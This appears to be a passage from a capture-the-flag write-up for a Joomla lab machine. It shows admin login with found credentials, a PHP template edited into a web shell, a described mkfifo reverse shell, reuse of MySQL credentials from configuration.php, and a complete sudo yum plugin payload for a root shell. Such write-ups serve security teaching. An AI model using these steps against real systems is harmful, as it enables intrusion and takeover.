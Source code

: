 I try to login to ssh with that credentials but it doesn't work. So I Try to login to `joomla` and that works there.
```
jonah:spiderman123
```
After Login to `/administrator` end point there we can go `Extension` drop down menu on Web Site Header and after we can go Templates and there we can select any template and change there php code. So Now we can change that php code and add a reverse shell code there after visiting that payload we can get the reverse shell.
**Note**: I use simple php command execution payload because PentestMonkey PHP Code gives some error. So when I get Command Execution I use simple `mkfifo` reverse shell payload to get shell

After I got reverse shell I read `configuration.php` and there is Mysql credentials.
My SQL Credentials
```
root:nv5uz9r3ZEDzVjNu
```
we can use this credentials to login wih local user `jjameson` with following command
```shell
su jjameson
```
### Privillege Escalation
User `jjameson` can run `yum` with `sudo` And `No PASSWD`. With the help of GTFObins that show us full payload we can run and get the root shell.
```payload 
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
